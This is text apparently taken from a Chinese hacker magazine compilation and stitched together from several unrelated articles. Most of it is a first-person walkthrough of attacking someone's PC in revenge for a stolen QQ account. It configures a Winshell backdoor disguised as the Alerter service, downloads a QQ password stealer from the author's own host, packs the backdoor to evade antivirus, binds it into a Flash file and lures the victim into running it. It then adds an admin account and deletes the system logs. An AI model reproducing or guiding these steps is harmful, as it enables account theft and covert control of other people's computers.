QQ的简便、易用是有目共睹的。由于申请QQ的人太多，因此腾讯公司也做出了限制：不能通过网络申请QQ。正因为如此，有些人干起了偷盗别人QQ号的勾当，并据为己有（用QQ讨好MM可是相当好的方法）。如今，根本不需任何计算机知识，就可成功偷盗QQ。这不，我在某论坛下载了一个小工具，其中就被捆绑了木马，结果我的QQ在这匹“黑马”中倒下了……

小知识：
1. 普通木马：一种远程控制软件，由客户端和服务端组成。在本地做好服务端，然后发给目标，目标一旦执行，我们就可用客户端连接并进行控制。
2. 反弹木马：和普通木马刚好相反，服务端主动连接客户端，这样做即可躲避防火墙，又可避免目标是动态IP。
3. DLL木马：把服务端做成一个DLL文件，这样就不需占用进程，也就没有相对应的PID号，就可在任务管理器中隐藏。做DLL木马基本分为两种：（1）把所有控制端都在DLL文件中实现；（2）把DLL做成一个启动文件，在需要时启动一个普通的exe木马。常用的DLL木马编写技术有：替换系统已有的DLL文件、挂接API、在进程中创建新的线程、全局钩子（Hook）。

在这里找到“本地策略→安全选项”，在右边窗口中找到“对匿名连接的额外限制”，双击打开，这里默认是设置为“无，依赖于默认许可权限”，我们将它改为“不允许枚举SAM帐号和共享”（图23），然后点“确定”退出。该设置也许并不能马上生效，需要等一会，待系统自动刷新后就可以了，然后我们再使用net view \ip 这样的命令对进行了上述设置的计算机查看共享列表时会得到错误提示。该法并非是禁止空连接，而是给空连接的权限做了一定的限制。

## 七、结束语

本文完全是针对小菜们写的，没有太新的东西，也没有太深的原理。对刚入门的新手来说，学习这样简单的入侵应该不难的，而且，在很多网络中，这样的方法还是很容易得手的。
文章至此结束了，希望各位小菜可以中学到一些东西，这样，也不枉费我的苦心了 ^_^
（本文用到的如下工具光盘中有收录：nietwein、get_user.pl、SMBcrack、winshell、elsave）

## 二、进程

### 1. 初步试探

一个晴朗的下午，我打扮好去跳舞……呵呵，开个玩笑。
今天星期天，天气不错，按照惯例打开QQ，输入号码、密码（好象是废话）。突然，我愣住了，提示密码错误。冷静！最近只有昨天在某论坛下载过一个小工具（WGET），难道这个工具中有盗QQ号的木马？二话不说，找到那个工具，用十六进制文件编辑器WinHex打开，看到了“QQPASS5998”的字样（图1）。很显然，这是QQ杀手，“5998”应该是版本号。


我们接着看，又找到了“Meregite.exe”、“Mswinsck.ocx”、“msread.dt”这三个文件（图2），它们应该是木马的文件。后来我自己下了一个QQPASS5998，这才知道这三个文件的作用：
密码监控文件——Msregite.exe
必要控件文件——Mswinsck.ocx（一个ActiveX控件）
生成资料文件——Msread.dt
原来如此，继续往下看。查到最后，才知道这个木马是怎么捆绑的（图3）。
首先用QQPASS自带的捆绑器把Meregite.exe、Mswinsck.ocx、msread.dt捆绑，生成MYPIC.EXE，图标是JPG，然后用普通捆绑器把 WGET 和 MYPIC.EXE 捆绑，生成任意 EXE 文件，从图 3 中可以看出来。现在可以肯定，我的 QQ 号是被这个捆绑型木马所盗。



图 2



图 3

下面就是想办法反盗回来，也许你会问，你没有密码保护？其实不然，密码保护当然有，但很长时间不用，早把“回答问题”的答案忘记了。但要反盗一个 QQ 谈何容易，不管怎么样？总要先试试吧，说干就干！！！


对于捆绑文件，用 WinHex 可以很好地发现。因为捆绑文件必定有两个或两个以上的可执行文件头，这是永远无法隐藏的。不要听有些人说：把 EXE 和非 EXE 文件捆绑（比如：和一个图片捆绑），然后发过去，对方双击就执行了。这绝对不可能，也根本没有这种逻辑，EXE 和非 EXE 文件捆绑是不可能被执行的。

不知大家是否知道黑洞这个木马？它把服务端转换为 BMP 图片，然后在目标主机中调用 DEBUG 来还原，这倒是可行的。

总之，EXE 和非 EXE 文件捆绑永远不会被执行，除非利用第三方工具！


注意
我已提供捆绑过的木马文件，大家回去可用 WinHex 打开自己看，多多动手，才能掌握知识！

### 2 反盗过程

通过 QQ 的查找功能看到我的 QQ 资料已被修改，估计好友也不见得能保住，这更让我火冒三丈。下定决心，一定要找回我的 QQ，并把他的 QQ 一并“找”回来！呵呵！

#### （1）变“性”欺骗

登录我的另一个 QQ，把个人资料改为“女性”，好了，现在开始我们的“诱惑”之旅！

等待了许久，终于看到我的 QQ 上线了，几句客套话后，便把他拉进 QQ 二人世界。这时，本地计算机打开 1024 以上的一个动态端口，目标也打开了一个端口，并建立了一条连接。呵呵，我想聪明的你应该想到了。对！就是用 netstat –an 命令，通过查看返回的结果，得到了对方的 IP：218.68.*.*（跟我一样，都是 CNC 的用户）。


Netstat 是个非常有用的网络命令，作用是统计现在传输的 TCP/IP 网络连接。
Netstat –an 统计并显示所有 TCP/UDP 端口的连接。在这里，大部分都可很容易看懂，唯独 State 的状态不是很容易，下面我给出各个状态的表现形式：
LISTEN：侦听来自远方的 TCP 端口的连接请求；
SYN-SENT：再发送连接请求后等待匹配的连接请求；
SYN-RECEIVED：再收到和发送一个连接请求后等待对方对连接请求的确认；
ESTABLISHED：代表一个打开的连接，同时端口也是打开的；
FIN-WAIT-1：等待远程 TCP 连接中断请求，或先前的连接中断请求的确认；
FIN-WAIT-2：从远程 TCP 等待连接中断请求；
CLOSE-WAIT：等待从本地用户发来的连接中断请求；
CLOSING：等待远程 TCP 对连接中断的确认；
LAST-ACK：等待原来的发向远程 TCP 的连接中断请求的确认；
TIME-WAIT：等待足够的时间以确保远程 TCP 接收到连接中断请求的确认；
CLOSED：没有任何连接状态。

#### （2）搜捕漏洞



图 4

现在拿出扫描器 X-SCAN2.3，对他进行一次“大搜捕”，看看有没有可直接利用的漏洞。启动 X-SCAN2.3，由于是个人用户，所以开放的服务不是很多，扫描时不用设置太多，按图 4 设置就可以了。扫描结果如下：

开放：
TCP：135 139 445 3372
UDP：445 1025

#### （3）可以利用的服务

我们可以利用的服务有如下：
135 //Remote Procedure Call (RPC)

RPC服务，可能存在DCOM、RPC远程溢出，但扫描报告中没有指出（如果没有冲击波，我想这个漏洞不会这么快“灭亡”的。有句话说的好：漏洞公开之时，便是漏洞灭亡之日）。

139//NetBios
共享的开放，即应用于NetBios协议，建议个人用户关闭；但对于内网用户不建议关闭；如果关闭了，将不能提供内网共享。
445 //139替代端口
也就是：假设139端口关闭，139提供的服务可由445来代替。


关闭Netbios的方法：
Windows 9X：右击“网上邻居”->“属性”把“Windows网络登录”改为“Windows友好登录”，重启。这样桌面上就不会再有“网上邻居”了，也没有Netbios了！
Windows 2000/XP：右击“网上邻居”->“属性”->“本地连接”->“属性”->“Internet协议(TCP/IP)”->“属性”->“高级”->“WINS”->选择“禁用TCP/IP上的Netbios”，这样就解除了TCP/IP和Netbios的绑定，同时也就等于关闭了服务！
注：这里的Windows NT指NT内核的系统（包含WinNT/2000/XP/2003）。

#### (4) 以其人之道还治其人之身

我们可以采用暴力破解的方法，通过139端口暴力破解对方的Administrator帐户密码，但这种方法比较被动，而且需要凭借运气，我们要采取主动，所以放弃这个想法！
想想怎么办呢？还是“以其人之道还治其人之身”吧！他既然给我一个捆绑了木马的程序，我也可以回一个捆绑了木马的程序，然后夺取QQ并控制这台主机。说干就干，先去网上下载一个Flash，然后做一个Winshell，再用开山文件合并器捆绑，然后通过“诱骗”发给对方并让他执行，具体如下：


- ①Flash文件网上较多，随便下一个就可以了，在此不多说！
- ②先来配置Winshell，如图5（默认界面）。下面详细说一说具体怎么配置。


图5

Port

Winshell 运行时监听的端口。默认5277，我们把它改为8080，让别人误以为这是代理服务器，可以起到一定的隐蔽性。如果把端口改为7626，别人就会误以为这是冰河，哈哈，就等着他用客户端连接吧！

Password

Winshell 登陆时的密码。默认为空，我们修改为“dahubaobao”。

Password Banner

即Winshell 登陆时返回的banner。可以修改，也可什么都不变，那将返回空信息。

SvcName

Winshell 默认启动服务的名称。默认为“Winshell”，这是一定要修改的，我们修改为“Alerters”。为什么修改这个呢？因为系统本身有一个服务“Alerter”，并且默认自动启动，也不是系统所必须的。之所以要修改为“Alerters”，是因为我们在朵儿获得shell后，用SC把Alerter服务删除（SC是一个对服务进行相关操作的工具，即时生效），这样我们的Winshell（Alerters）能起到一定的隐蔽性。

RegKeyName

在Win9x系统中安装Winshell时，为了在系统启动后能自动运行，Winshell写在注册表路径(HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run)处的字符串名默认为“WinShell”，其值也为字符串类型，如：“c:\windows\winshell.exe”。

DisplayName

显示在NT服务列表中服务的名称。默认为“Windows Shell Service”，我们也修改为“Alerters”。因为Alerter的显示名称和服务名称一样，所以这里也修改成上边的样子。

Description

服务的描述。默认为“Provide Windows Shell Service”，我们修改为“通知所选用户和计算机有关系统管理级警报”，也就是Alerter所对应的描述。

AutoInstall

选择当Winshell运行时是否自动安装自己。默认没有选择，我们选上。

DownExec

选择当Winshell运行时是否自动下载可执行文件并运行。默认没有选择，我们选上。这就是我上面为什么要用Winshell和Flash捆绑的原因，就因为这个功能，可以在Winshell运行时自动下载一个可执行文件并运行，怎么样？不错吧！



图6

Url Address

被自动下载的可执行文件的Url地址。如http://lacalhost/xxx.exe，我填的是：http://dahubaobao.vicp.net/pass.exe。Destination Filename

可执行文件被下载后存放的文件名。可包括全路径，例如：C:\xxx.exe。我填写的是：C:\WINT\system32\pass.exe。

Compress WinShellServer

是否压缩 Winshell 主程序，默认为压缩，我们修改为不压缩，生成服务端之后，我们自己压缩。

以上是比较重点的配置，其他使用请参考 Winshell 帮助！配置完后如图6所示，点击“Make”就生成服务端了。

图6中显示的“dahuabao.vicp.net”是花生壳的动态域名，指向我自己的Web服务器。“pass.exe”是一个盗QQ的工具——QQ杀手6.8。

Banner即标识，也就是各种服务的响应信息，下面给出一个以Web服务为例的banner，打开CMD，输入telnet IP 80，回显（图7）：

```
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Sun, 18 May 2003 15:50:08 GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>The parameter is incorrect.</body></html>
遗失对主机的连接。
C:\>
```

图 7
最重要的是：Server：Microsoft-IIS/5.0，返回了Web服务器的版本。
注：以上是在本地测试的。

③下面用 ASPACK 压缩 Winshell（Alerts），并和 Flash 捆绑。

所谓 ASPACK 压缩，就是我们常说的“加壳”。加壳的作用是防止软件被恶意修改。在软件运行时，我们的“壳”先于软件运行，并取得软件的“控制权”，这样就能把软件“保护”起来。我们给 Winshell 加壳的目的是躲避杀毒软件。

常用的加壳软件有 Aspack、Upx 等。常用的脱壳有：ASPack 脱 ASPack 的压缩 PE 文件、UnPEpack 脱 PEpack 的壳、ProcDump32（十分优秀的“万能”脱壳工具）。


图8是 ASPACK 步骤，很简单，我采用的汉化版。为什么要用自己的工具压缩呢？Winshell 不是自带吗？因为通过之前我跟朋友聊天，得知他并不是学计算机的，一般像这样的人，杀毒软件都会装的（我就没装……），所以用新版的 ASPACK 躲避杀毒软件的几率要大些。

④之后用开山文件合并器 3.0 破解版把 Flash 和 Alerts 合并（图9）。点击“+”按钮添加文件，这里要注意：合并之后的默认图标是第一个添加进来的文件，所以我先把 Flash 文件添加进来（已经从 SWF 转换为 EXE 了）。再添加 Alerts，点击“合并”就可以了。合并后的文件名可随便改，也可使用默认的。


从图10可看出，合并之后还是可照样执行，而且就在这时，我的机器已经中了 Winshell（多么富有牺牲精神，值得称赞）。从图11中可看出，端口8080已经打开，服务中显示的跟我们之前定义的一样。最重要的是，这时我们的 pass.exe 已经下载并执行了，即便是不 telnet 过去，也可以截获 QQ 了，但我的目的不仅仅是这样，还要控制他的主机，呵呵！


⑤下面我们来看右怎样设置 QQ 杀手，先解压缩 QQ 杀手 6.8，运行 QQSET.exe（资料设置文件），设置为图12的样子即可。点击“确定”即可生成 Msread.dt（生成资料文件）。

这里并没有配置完毕，生成的 Msread.dt 现在没有任何作用，需要使用 QQBlN.exe（专用捆绑工具）捆绑，具体如图13所示。


黑客X档案 2003 2004年合订本(下卷)


## 小鸡快跑

现在把 SHOWGOOD.exe 改名为“pass.exe”，放到 Web 目录下，之后就等着对方运行 Winshell，然后自动下载、执行。

⑥ 好了，准备工作基本完成了，下面就把这个捆绑了木马的 Flash 文件发送过去。经过了两个多小时的聊天，对方已经走进了我的“圈套”，这时我说给你来个 Flash，非常搞笑，他说可以，于是就传了过去，等待了两分钟，然后问他怎么样？他说根本不好笑？哈哈，他果然运行了，其实这个 Flash 根本不是什么搞笑的作品，而是一个算命的，如果他说好笑，那估计是没运行（观看），多么聪明的头脑，再一次值得称赞！

⑦ 二话不说，立刻打开 CMD，输入 telnet，执行 set LOCAL_ECHO，意思是打开回显（图14）。


```
Microsoft Telnet> help
指令可能缩写。支持的指令为：
close           关闭当前连接
display         显示操作参数
open            连接到一个主机
quit            退出 telnet
set             设置选项（要列表，请键入 'set ?'）
status          显示状态信息
unset           取消设置选项（要列表，请键入 'unset ?'）
?/help          显示帮助信息
Microsoft Telnet> set ?
NTLM            打开 NTLM 身份验证。
LOCAL_ECHO      打开 LOCAL_ECHO。
TERM {ansi, vt100, vt52 或 VTNT}
                 设置 TERM 类型。
                 支持的 TERM 类型：
                 Japanese EUC,
                 JIS Kanji,
                 JIS Kanji(CR),
                 DEC Kanji,
                 NEC Kanji
CRLF            发送 CR 和 LF
Microsoft Telnet>
```

然后执行 open IP 8080，回显 “password: daluhabao”（输入密码），提示符变为 “CMD>”，接着输入 “s”（shell），即可进入可爱的 “C:\>”，这正是 Winshell 提供的 telnet 服务功能（图15）。其他功能请查看 Winshell 帮助。

至此，我们已经成功获得了一个 Shell，并把窃取 QQ 的木马安装在了对方的计算机上，只要对方再次登陆我的 QQ（这时可采用 DoS 的方法令其断线），密码就会发送到指定邮箱（QQ 杀手的效率还是很高的）。


```
Password:daluhabao
WinShell v5.0 (C)2002 janker.org
? for help
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\>
```



## 三、收尾工作

还记得我们安装 Winshell 的服务名是什么吗？系统本身有一个 Alerter 服务，我们安装的 Alerters 服务，现在我们就来用 Win2000 Server ResourceKit 中提供的 SC 工具来删除 Alerter 服务，以使 Alerters 服务以假乱真。

先加个用户，命令为（图16）：

```
Password:daluhabao
WinShell v5.0 (C)2002 janker.org
? for help
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\>
C:\>Net user daluhabao daluhabao /add
命令成功完成。
C:\>
C:\>Net localgroup administrators daluhabao /add
Net localgroup administrators daluhabao /add
命令成功完成。
C:\>
```


在本地和对方建立 IPC 连接，复制 SC 到 C 盘根目录，执行命令：

Sc delete Alerter // 删除 Alerter 服务，SC 调用系统服务函数，即时生效（图17）

```
? for help
CMD>shell
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\>
C:\>Net user daluhabao daluhabao /add
Net user daluhabao daluhabao /add
命令成功完成。
C:\>
C:\>Net localgroup administrators daluhabao /add
Net localgroup administrators daluhabao /add
命令成功完成。
C:\>
C:\>sc delete Alerter
sc delete Alerter
[SC] DeleteService SUCCESS
C:\>
```


然后可以克隆帐户，再用 Ntrookit 隐藏进程，由于不在本文范畴之内，所以就不多说了。

之后就是清除日志，一般需要删除的有：

```
del c:\winnt\system32\logfiles\*. *
del c:\winnt\system32\config\*.evt
del c:\winnt\system32\dtclog\*. *
del c:\winnt\system32\*.log
del c:\winnt\system32\*.txt
del c:\winnt\*.txt
del c:\winnt\*.log
```

## 四、后记

QQ 终于找回来了，并且把他的 QQ 也一并“找”了回来，目的达到。回顾这次反盗 QQ 的经历，不得不说明对方帮我很大的忙（也加上我灵活的头脑），如果他安全意识较强，决不轻易运行别人发来的文件！

至于怎么防范，又是老生常谈了，无非就是不要随便运行别人发来的可执行文件等。总之，没有安全意识的人，是不可能做出安全的系统！

（本文提到的以下软件光盘中有收录：WinHex、QQPASS5998、ASPACK、Winshell、开山文件合并器）

## 小鸡快跑

## 关于 Ping 命令的有趣发现

阿剑

Ping 是 Windows 自带的运行于命令行下的网络小工具，用于检测网络连接性，可到达性和名称解析的疑难问题的主要 TCP/IP 命令，只有在安装 TCP/IP 协议后才能使用该命令。Ping 最主要的用处是检测目标主机是否可连通，其实质是发送一个 ICMP 回显请求报文给目的主机，并等待回显的 ICMP 应答，然后打印出回显的报文。关于 Ping 命令我想大家都已很熟悉了，我就不多说。不过，有个有趣的技巧不知大家可知道，在此特向各位汇报。

使用 Win2000/XP 的朋友打开 CMD，进入命令提示符状态，然后输入 ping 127.0.0.1 并回车，会出现回显信息表示 ping 通了。有趣的是，如果你输入 ping 127.0.1 并回车（注意不是127.0.0.1，中间少输入一个0），同样可 Ping 通！Windows 会自动在IP地址中填充上一个“0”，组成127.0.0.1，如图1所示。



图 1

在 Windows98/Me 下执行这个命令也是同样结果！换个方式，在命令行下输入命令：ping 127..0.1，同样可 Ping 通，系统还是会自动补充上一个“0”，变为完整的形式。

之所以会这样，是因为在使用 Ping 命令 Ping 某个 IP 地址时，可省略 IP 地址中的空值（即为“0”的部分），而使用“..”这种格式可在其中自动加入空值，于是我们就可省略其中的“0”了。

此外，还有个小问题令我们感兴趣，那就是如果我们在命令行下分别输入 Ping 202.108.36.172（这是网易的IP地址）和 Ping 202.108.036.172，其回显结果会不会一样呢？开始我以为是一样的，然而命令执行后的结果却大大出乎我的意料——与我想象的完全不一样，你自己亲自试一下就知道了。

输入 Ping 202.108.36.172 并回车后，显示的结果一切正常，和我们预想的完全一样（图2）。而 Ping 202.108.036.172 时在命令提示符窗口中显示的竟然是在 Ping 另一个 IP 地址：202.108.30.172（图3）！

